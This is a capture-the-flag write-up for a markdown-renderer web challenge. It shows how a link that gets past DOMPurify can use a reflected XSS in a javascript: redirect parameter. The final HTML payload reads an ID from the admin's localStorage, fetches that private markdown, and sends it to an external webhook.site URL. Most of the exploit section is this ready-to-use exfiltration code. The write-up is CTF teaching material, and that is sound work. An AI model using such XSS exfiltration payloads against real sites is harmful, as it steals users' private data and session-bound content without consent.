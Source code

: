 ### Sanitizer Behavior

While DOMPurify blocks direct script tags and event handlers (`on*`, `javascript:` in general), we can still embed HTML like this:

```html
<ul id="markdownList">
  <li>
    <a href="...">Click me</a>
  </li>
</ul>
```

If the `href` points to a page with a reflected XSS, and the admin **automatically clicks it**, we win.

### Crafting the Exploit

Since `/register?redirect=` **reflects JavaScript** (e.g. `javascript:alert(1)`), we exploit that in the `href`.

Here’s the working XSS payload:

```python
<ul id="markdownList">
  <li>
    <a href="https://markdown-renderer.tjc.tf/register?redirect=javascript:alert(1)">Click me</a>
  </li>
</ul>
```

When the admin clicks it, `alert(1)` fires.

### Exfiltrating the Flag

The goal is to exfiltrate **the markdown content the admin creates**. Fortunately, it is accessible via: `/markdown/{id}/details`

Where the ID is stored in **`localStorage.markdowns`** on the admin's browser.

### Final Exploit Payload

```html
<ul id="markdownList">
  <li>
    <a href="https://markdown-renderer.tjc.tf/register?redirect=javascript:fetch('/markdown/'+localStorage.markdowns.slice(1)+'/details').then(r=>r.json()).then(d=>fetch('https://webhook.site/86b1774b-94ae-470d-a6b7-8d5a3d5f84ad?data='+encodeURIComponent(JSON.stringify(d))))">Click me</a>
  </li>
</ul>
```

**What it does:**

1. Extracts the markdown ID from `localStorage`.
2. Fetches `/markdown/{id}/details`.
3. Sends the result as a JSON blob to your **webhook.site** URL.

